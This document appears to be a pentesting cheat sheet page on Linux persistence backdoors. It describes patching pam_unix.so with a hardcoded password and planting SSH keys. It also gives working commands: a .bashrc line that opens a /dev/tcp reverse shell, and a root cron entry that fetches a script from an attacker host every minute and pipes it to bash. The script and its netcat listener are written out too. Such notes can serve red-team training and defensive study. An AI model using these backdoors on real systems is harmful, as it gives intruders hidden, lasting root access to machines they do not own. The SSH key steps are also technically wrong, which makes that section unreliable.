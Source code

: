 # Backdoors

<figure><img src="../.gitbook/assets/door.gif" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:blue;">A backdoor refers to</mark> <mark style="color:blue;">**any method**</mark> <mark style="color:blue;">by which</mark> <mark style="color:blue;">**authorized**</mark> <mark style="color:blue;">and</mark> <mark style="color:blue;">**unauthorized users**</mark> <mark style="color:blue;">are able to get around normal security measures and</mark> <mark style="color:blue;">**gain high level**</mark> <mark style="color:blue;">user access (aka root access) on a computer</mark> <mark style="color:blue;">**system**</mark><mark style="color:blue;">,</mark> <mark style="color:blue;">**network**</mark><mark style="color:blue;">, or</mark> <mark style="color:blue;">**software application**</mark><mark style="color:blue;">.</mark>

<mark style="color:blue;">They are known for being</mark> <mark style="color:blue;">**discreet**</mark><mark style="color:blue;">. Backdoors exist for a select group of people in the know to</mark> <mark style="color:blue;">**gain easy access to a system or application**</mark><mark style="color:blue;">.</mark>
{% endhint %}

## | `PAM backdoor` |

{% hint style="info" %}
<mark style="color:blue;">This backdoor essentially consists of</mark> <mark style="color:blue;">**adding your own password**</mark> <mark style="color:blue;">to the</mark> <mark style="color:blue;">**pam\_unix.so**</mark> <mark style="color:blue;">file</mark>
{% endhint %}

_pam\_unix.so_ file is responsible for **authentication**

![](<../.gitbook/assets/image (10).png>)

_pam\_unix.so_ uses the unix\_verify\_password function to verify to user's supplied password **:**

![we added a new line to our code : if (strcmp(p, "0xMitsurugi") != 0 )](<../.gitbook/assets/image (16).png>)

## | `.bashsrc backdoor` |

{% hint style="info" %}
<mark style="color:blue;">If a user has</mark> <mark style="color:blue;">**bash**</mark> <mark style="color:blue;">as their</mark> <mark style="color:blue;">**login shell**</mark><mark style="color:blue;">, the "</mark><mark style="color:blue;">**.bashrc**</mark><mark style="color:blue;">" file in their home directory is</mark> <mark style="color:blue;">**executed**</mark> <mark style="color:blue;">when an interactive session is launched.</mark>
{% endhint %}

Any user that log in often :

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

**Put a nc listener**

## | `CronJob backdoor` |

### With a root access

{% hint style="info" %}
_<mark style="color:blue;">cronjobs file -></mark>_ _<mark style="color:blue;">**/etc/cronjob**</mark>_
{% endhint %}

Configure a task where every minute a reverse shell is sent to you. Add this line into our cronjob file :

```
* *     * * *   root    curl http://$attacker_ip:8080/shell | bash
```

Add this to the **shell** file :

```bash
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
```

On the attacker machine :

```bash
nc -nvlp $port
```

## | `SSH Backdoor` |

{% hint style="info" %}
<mark style="color:blue;">Consists in</mark> <mark style="color:blue;">**saving**</mark> <mark style="color:blue;">our</mark> <mark style="color:blue;">**ssh keys**</mark> <mark style="color:blue;">in some</mark> <mark style="color:blue;">**user’s home**</mark> <mark style="color:blue;">directory. Then we can access it via ssh.</mark>
{% endhint %}

#### Generate ssh key

```bash
ssh-keygen
```

#### Copy our key into the user's .ssh directory

```bash
mkdir .ssh 
cp id_rsa .ssh/id_rsa
```
